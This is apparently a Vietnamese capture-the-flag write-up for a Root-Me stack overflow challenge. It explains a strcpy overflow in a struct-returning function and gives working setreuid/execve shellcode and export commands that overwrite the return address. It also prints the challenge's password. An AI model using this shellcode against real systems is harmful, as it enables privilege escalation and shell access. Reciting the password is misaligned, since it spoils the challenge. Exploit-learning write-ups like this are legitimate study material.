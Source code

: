 # ELF x86 - Stack buffer overflow basic 4

```c
int main(void)
{
  struct EnvInfo env;
   
  printf("[+] Getting env...\n");
  env = GetEnv();
   
  printf("HOME     = %s\n", env.home);
  printf("USERNAME = %s\n", env.username);
  printf("SHELL    = %s\n", env.shell);
  printf("PATH     = %s\n", env.path);
   
  return 0;  
}
```

Cấu trúc chương trình rất đơn giản, tạo ra biến `env = GetEnv()`

Đây là `struct EnvInfo`

```c
struct EnvInfo
{
  char home[128];
  char username[128];
  char shell[128];  
  char path[128];  
};
```

Chúng ta đến với hàm `GetEnv()`

```c
struct EnvInfo GetEnv(void)
{
  struct EnvInfo env;
  char *ptr;
   
  if((ptr = getenv("HOME")) == NULL)
    {
      printf("[-] Can't find HOME.\n");
      exit(0);
    }
  strcpy(env.home, ptr);
  if((ptr = getenv("USERNAME")) == NULL)
    {
      printf("[-] Can't find USERNAME.\n");
      exit(0);
    }
  strcpy(env.username, ptr);
  if((ptr = getenv("SHELL")) == NULL)
    {
      printf("[-] Can't find SHELL.\n");
      exit(0);
    }
  strcpy(env.shell, ptr);
  if((ptr = getenv("PATH")) == NULL)
    {
      printf("[-] Can't find PATH.\n");
      exit(0);
    }
  strcpy(env.path, ptr);
  return env;
}
```

Chương trình gọi hàm `strcpy` với 4 giá trị từ `environment` vào `struct EnvInfo`, điều này gây ra lỗi buffer overflow. Chương trình ko bật cơ chế bảo vệ nào vì vậy có rất nhiều cách tấn công buffer overflow. Chúng ta có thể dùng ret2libc hoặc shellcode là 2 kiểu cơ bản nhất. Tuy nhiên ở đây trước khi lấy shell ta cần gọi syscall `setreuid` nhằm thay đổi sid để đọc được file `.passwd`. Vì file `.passwd` chỉ cho phép đọc nếu user là `root` hoặc `app-systeme-ch8-cracked`. Vì thế ở đây mình chọn cách dùng shellcode.

![](images/4.png)

Như vậy kế hoạch sẽ là ghi shellcode vào 1 trong 4 biến môi trường ta copy vào trong biến env, rồi đè địa chỉ trả về lên đó để return về shellcode. Chương trình không bật aslr vì thế chúng ta có thể xem trực tiếp địa chỉ bằng gdb, tuy nhiên khi tấn công thì môi trường chạy ở gdb và môi trường chạy bên ngoài lại có sự khác biệt. Mình không rõ tại sao lại vậy, cơ bản là địa chỉ chúng ta tìm thấy bằng gdb không trùng với địa chỉ thật lúc chạy, cho dù đã mình đã dùng một số trick để xử lí.

Vì vậy chúng ta sẽ đổi cách tấn công một chút, lợi dụng cơ chế xử lí của chương trình khi trả về một struct. Hàm `GetEnv` trả về một `struct EnvInfo` chứ không phải một con trỏ đến `struct EnvInfo`, vì thế nó có chút sự khác biệt ở cơ chế trả về. Mình phát hiện điều này khi mình code assembly khi chương trình gọi hàm `GetEnv()`.

![](images/5.png)

Đây là code xử lí của chương trình khi gọi hàm GetEnv. Và bên trong hàm GetEnv trước khi return.

![](images/6.png)

Mình sẽ giải thích một chút cơ chế thế này, trước khi gọi hàm `GetEnv`, chương trình `push` địa chỉ `ebp – 0x418` làm tham số của hàm, mặc dù trên code hàm `GetEnv` không có tham số nào cả, và hàm `main` chỉ có 1 `struct EnvInfo` tuy nhiên chương trình lại tạo ra một khoảng bộ nhớ đủ cho 2 `struct EnvInfo`??? Lí do cho điều này là khi `struct EnvInfo` được tạo ra ở trong hàm `GetEnv()` và được trả về cho hàm `main`, chương trình dùng câu lệnh `rep movs DWORD PTR es:[edi], DWORD PTR ds:[esi]` để copy struct ta tạo ở hàm `GenEnv` vào địa chỉ đặt tại `ebp + 0x8`, tức là giá trị ta đưa vào trước khi gọi `main`, rồi tiếp tục copy từ đó vào địa chỉ thực của biến `env` trong hàm `main`. Chúng ta có thể viết mã giả như sau:

```c
main() {
	Tạo struct env thật;
	Tạo struct env ảo;
	Đưa địa chỉ struct env ảo vào tham số thứ nhất và gọi GetEnv();
	Copy struct env ảo vào struct struct env thật;
}
GetEnv() {
	Tạo struct env;
Lấy địa chỉ struct env ảo của hàm main ở ebp + 0x8 và copy struct env vào struct env ảo ở hàm main;
}
```

Đại khái là khi hàm con trả về một struct, chương trình copy struct ra một vùng nhớ tạm khác rồi khi về lại hàm cha, tiến hành copy lại struct từ vùng nhớ tạm vào biến trên hàm main. Địa chỉ vùng nhớ tạm được copy được hàm cha đặt là tham số đầu tiên của hàm.

Như vậy ta sẽ đổi cách tấn công một chút, thay vì ta đè return address lên địa chỉ shellcode là biến `struct env` ở hàm `main`, ta có thể sửa `return address` và địa chỉ vùng nhớ tạm tại `ebp + 0x8` giống nhau. Như vậy chương trình sẽ copy struct ra một vùng nhớ trên stack và return về đó luôn, đảm bảo chính xác.

Mình viết một đoạn shellcode nhằm gọi `setreuid(1208, 1108)` để đổi user và gọi `execve(“/bin/sh”, 0, 0)` để lấy shell.

```assembly
section .text
	global _start:

_start:
	xor edx, edx
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	mov bx, 1208
	mov cx, 1108
	mov al, 0x46
	int 0x80	

	xor eax, eax
	xor ecx, ecx
	push eax
	push 0x68732f2f
	push 0x6e69622f
	push esp
	pop ebx
	mov al, 0xb
	int 0x80
```

Cuối cùng là đặt chúng vào 1 trong 4 biến môi trường và return. Trong 4 biến thì chỉ có `USERNAME` là chưa có giá trị sẵn, vì vậy mình sẽ đặt shellcode vào biến `USERNAME`, và đè return address về địa chỉ struct ENV ảo + 0x80 (vị trí của `env.username`). Biến `PATH` là biến cuối cùng để overflow vì thế chắc chắn sẽ phải thay đổi, mình sẽ không sửa toàn bộ mà chỉ thêm vào phía sau để đảm bảo chương trình không bị ảnh hưởng. Vị trí của biến PATH là `ebp - 0x21c + 0x180 = ebp – 0x9c`. Địa chỉ của struct ENV ảo có thể là bất kì vùng nhớ nào có quyền read, mình debug gdb và lấy luôn giá trị cũ cho chắc cú.

![](images/7.png)

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:/opt/tools/checksec/`python2 -c "print 'A' * 41 + '\x70\xf6\xff\xbf' + '\xf0\xf5\xff\xbf'"`
```

```bash
export USERNAME=`python2 -c "print '\x90' * 80 + '\x31\xd2\x31\xc0\x31\xdb\x31\xc9\x66\xbb\xb8\x04\x66\xb9\x54\x04\xb0\x46\xcd\x80\x31\xc0\x31\xc9\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\xb0\x0b\xcd\x80'"`
```

![](images/8.png)

password là: `s2$srAkdAq18q`


